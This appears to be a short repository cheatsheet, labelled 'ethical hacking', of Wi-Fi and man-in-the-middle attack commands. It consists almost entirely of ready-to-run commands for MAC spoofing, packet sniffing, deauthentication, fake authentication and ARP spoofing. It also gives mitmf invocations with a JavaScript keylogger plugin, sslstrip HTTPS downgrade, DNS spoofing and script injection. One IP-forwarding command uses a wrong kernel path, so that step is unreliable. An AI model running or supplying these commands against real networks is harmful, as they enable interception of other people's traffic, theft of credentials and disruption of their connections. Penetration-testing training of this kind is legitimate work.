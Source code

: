 This is a cheatsheet for commands and tools commonly used for ethical hacking.

1) Change Mac      : a) ifconfig ath0 down b) ifconfig ath0 hw ether <new_mac> c) ifconfig ath0 up

2) Sniffing Packets: a) airodump-ng wlan0 or b) airodump-ng --bssid <ap_mac> --channel <channel> --write <out_file> wlan0

3) Deauth          : a)  aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 ath0
4) Fake Auth       : a)  aireplay-ng -1 0 -a 00:14:6C:7E:40:80 -h 00:09:5B:EC:EE:F2 ath0

5) Cracking WEP/WPA: Use of aircrack-ng depends on encryption

6) Reconnaissance  : a) netdiscover -r 10.0.2.1/24 b) nmap / zenmap(GUI)

MITM:
7) ARP Spoof       : a) arpspoof -i ath0 -t 10.0.2.9 10.0.2.1 b) arpspoof -i ath0 -t 10.0.2.1 10.0.2.9 c) echo "1" > /proc/sys/net/ipv4/ip_forwarding

8) MITMF           : a) mitmf --arp --spoof --gateway 10.0.2.1 --target 10.0.2.9 -i ath0   --- this command is arp spoof + sniffing. Contains many other plugins such as --screen, --jskeylogger

9) HTTPS           : Use sslstrip to downgrade https to http. MITMF commands deploy it.

10) DNS Spoof      : a) Add dns entry to /etc/mitmf/mitmf.conf b) mitmf --arp --spoof --gateway 10.0.2.1 --target 10.0.2.9 -i ath0 --dns 
 
11) Inject code    : a) Use mitmf with --inject --js-payload 'alert("test");'
